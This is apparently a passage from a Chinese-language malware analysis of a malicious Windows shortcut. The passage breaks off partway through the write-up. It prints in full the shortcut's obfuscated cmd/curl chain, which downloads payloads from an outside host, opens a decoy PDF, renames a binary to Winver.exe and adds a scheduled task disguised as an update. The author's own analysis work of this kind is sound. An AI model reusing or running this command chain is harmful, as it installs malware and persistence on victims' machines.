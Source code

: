 
```
Relative Path: ..\..\..\..\Program Files\WindowsPowerShell\Modules\Pester\3.4.0\bin\Pester.bat
Arguments: ; cmd /c c^url --output C:\ProgramData\Evaluation241.pdf --ssl-no-revoke --url https://aerdxtr.b-cdn.net/aer -s & start C:\ProgramData\Evaluation241.pdf & c^url --output C:\ProgramData\Evaluation24.pdf --ssl-no-revoke --url https://aerdxtr.b-cdn.net/aer -s & c^url --output C:\ProgramData\Microsoft\DeviceSync\job --ssl-no-revoke --url https://aerdxtr.b-cdn.net/dxtr -s & move C:\ProgramData\Evaluation24.pdf . & del *.pdf.lnk & cd C:\ProgramData\Microsoft\DeviceSync & rename job Winver.exe & SCHTASKS /CREATE /SC minute /TN MicrosoftUpdate /TR &#34;C:\ProgramData\Microsoft\DeviceSync\Winver&#34; /F
Icon Location: C:\P
```

  
# 4.样本分析  
  
直接对上面加载的参数进行分析：  
  
cmd /c c^url --output C:\ProgramData\Evaluation241.pdf --ssl-no-revoke --url https://aerdxtr.b-cdn.net/aer -s & start C:\ProgramData\Evaluation241.pdf & c^url --output C:\ProgramData\Evaluation24.pdf --ssl-no-revoke --url https://aerdxtr.b-cdn.net/aer -s & c^url --output C:\ProgramData\Microsoft\DeviceSync\job --ssl-no-revoke --url https://aerdxtr.b-cdn.net/dxtr -s & move C:\ProgramData\Evaluation24.pdf . & del *.pdf.lnk & cd C:\ProgramData\Microsoft\DeviceSync & rename job Winver.exe & SCHTASKS /CREATE /SC minute /TN MicrosoftUpdate /TR "C:\ProgramData\Microsoft\DeviceSync\Winver" /F  
  
curl和上面命令相关的参数如下：  

```
--output 					Write to file instead of stdout
--ssl-no-revoke  	Disable cert revocation checks (Schannel)
-url    					URL to work with
-s, --silent  		Silent mode
```

  
## 4.1.下载文件  
  
通过https://aerdxtr.b-cdn.net/aer将文件下载到  
  
C:\ProgramData\Microsoft\DeviceSync\job  

```
https://aerdxtr.b-cdn.net/aer -s & c^url --output C:\ProgramData\Microsoft\DeviceSync\job
https://aerdxtr.b-cdn.net/dxtr -s & move C:\ProgramData\Evaluation24.pdf 
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZmiaibBst1BVROgvu8jXzmI31AqjLa3KfLicqLu7NmwL2bLxZJrOng9YNJEUqbpiamflDiarfwgr3P9sib1qFbVtTEHw/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZmiaibBst1BVROgvu8jXzmI31AqjLa3KfLx7RPzKJNuEoEyZIVhhvNr9gSk0cVnlKVnppl87Ndjg5DN0hszWxO1Q/640?wx_fmt=png&from=appmsg "")  
##   
## 4.2.文件重新命令  

```
https://aerdxtr.b-cdn.net/aer -s & c^url --output C:\ProgramData\Microsoft\DeviceSync\job
rename job Winver.exe
```
